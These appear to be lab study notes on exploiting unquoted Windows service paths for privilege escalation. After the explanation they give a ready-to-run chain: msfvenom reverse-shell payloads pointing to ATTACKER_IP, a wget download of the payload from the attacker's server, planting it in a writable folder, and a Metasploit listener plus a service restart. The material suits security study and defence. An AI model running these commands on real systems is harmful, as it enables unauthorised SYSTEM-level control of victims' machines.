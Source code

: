 Unquoted Service Path is a common Windows privilege escalation vulnerability that ***occurs when a Windows service executable path is not enclosed in quotation marks and contains spaces***.

Without quotation marks, ***Windows interprets the space character as `break` character rather than a space*** and assumes the executable path is everything up to that breakpoint.
#### Requirements 
If SYSTEM doesn't launch the service, it would only be a good vector for horizontal privilege escalation and not a vertical escalation.

You also ***need*** to have ***write permissions*** to one of the folders within the service's executable path to inject your own malicious executable into the file path.

**Proper Quotation**
```
sc qc "vncserver"
```

**Without Proper Quotation"
```
sc qc "disk sorted enterprise"
```

#### Finding Unquoted Service Paths
```
wmic service get name,pathname,displayname,startmode,startname | findstr /i auto | findstr /i /v "C:\Windows\System32" | findstr /i /v """
```
- `/v "C:\Windows\System32":` Excludes results containing `C:\Windows\System32`
- `/v "":` excludes results containing double quotes
- `auto:` Typically, Windows ***services can't be restarted by a low-privileged user*** that is why you need to ***look for services with a `startmode` of `AUTO_START`***.

When SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorted Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:

| Command                                              | Argument 1                 | Argument 2                 |
| ---------------------------------------------------- | -------------------------- | -------------------------- |
| C:\MyPrograms\Disk.exe                               | Sorter                     | Enterprise\bin\disksrs.exe |
| C:\MyPrograms\Disk Sorter.exe                        | Enterprise\bin\disksrs.exe |                            |
| C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe |                            |                            |
When a Windows service has an unquoted path with spaces, the system misinterprets the path, breaking it into parts and searching for executables in order. For e.g.
- First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
- If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
- Finally `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

If earlier paths don't exist, it keeps searching. Attackers can ***place a malicious executable (e.g., `Disk.exe`) in a writable location like `C:\MyPrograms`***, forcing the service to run it. Normally, `C:\Program Files` isn't writable.
```
icacls C:\MyPrograms
```
- `BUILTIN\\Users:` If they have `AD` and `WD` privileges, it allows the user to create subdirectories and files.

	**Naming the Payload**
	1. The binary path of the Service executable `C:\MyPrograms\Process Monitor\Daily Processes\processmonitor.exe`. 
	2. Check the `write permissions` on the folders. (In this case `Process Monitor` has write permissions)
	3. So, the name of the payload should be `Daily.exe` because it is directly underneath the `Process Monitor` directory which is writable.

**Create a Payload**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

# or 

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$kaliIPAddress LPORT=4444 -f exe -o Example.exe
```

**Transfer the Payload**
```
# Attacker
python3 -m http.server
nc -nvlp 4444

# Victim
wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe
```

**Replace the Service Executable with our Payload and Grant Full Permission to Everyone**
```
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

**Start the Listener**
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost $kaliIPAddress; set lport 4444; exploit"
```

**Restart the Service**
```
sc stop "disk sorter enterprise" 
sc start "disk sorter enterprise"
```
Note: You can also restart the Host, if the service has `auto_start`.